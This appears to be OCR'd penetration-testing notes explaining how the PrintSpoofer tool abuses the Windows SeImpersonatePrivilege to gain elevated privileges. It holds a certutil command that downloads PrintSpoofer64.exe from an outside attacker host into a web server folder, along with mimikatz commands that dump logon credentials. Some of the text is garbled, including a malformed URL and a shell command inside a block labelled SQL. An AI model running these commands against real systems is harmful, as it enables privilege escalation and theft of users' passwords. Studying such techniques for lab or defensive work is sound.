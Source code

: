   

The `SeImpersonatePrivilege` privilege allows a process to impersonate a client after authentication. This can be exploited for privilege escalation using tools like PrintSpoofer. Here's a detailed explanation:

### **SeImpersonatePrivilege**

- **Purpose**: Allows a process to impersonate another user's security context.
- **Usage**: Commonly used in scenarios where a service needs to perform actions on behalf of a user.

### **PrintSpoofer Exploit**

PrintSpoofer is a tool that exploits the `SeImpersonatePrivilege` to escalate privileges. Here's how it works:

1. **Impersonation Tokens**: When a service with `SeImpersonatePrivilege` interacts with a client, it can obtain an impersonation token.
2. **Named Pipe**: PrintSpoofer creates a named pipe and tricks a privileged service (like the Print Spooler service) into connecting to it.
3. **Token Duplication**: Once the connection is established, PrintSpoofer duplicates the token of the privileged service.
4. **Privilege Escalation**: The duplicated token is then used to create a new process with elevated privileges.

```SQL
certutil -urlcache -split -f http:n45.203:8000/PrintSpoofer64.exe C:\wamp64\attendance\images\PrintSpoofer64.exe
-urlcache: Specifies that the URL should be cached.
-split: Splits the file into multiple parts if necessary.
-f: Forces the download.
```

  

  

.#####. mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08  
.## ^ ##. "A La Vie, A L'Amour" - (oe.eo)

## / \ ## /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )

## \ / ## > [https://blog.gentilkiwi.com/mimikatz](https://blog.gentilkiwi.com/mimikatz)

'## v ##' Vincent LE TOUX ( vincent.letoux@gmail.com )  
'#####' > [https://pingcastle.com](https://pingcastle.com/) / [https://mysmartlogon.com](https://mysmartlogon.com/) ***/

mimikatz # privilege::debug  
Privilege '20' OK

mimikatz # sekurlsa::logonPasswords
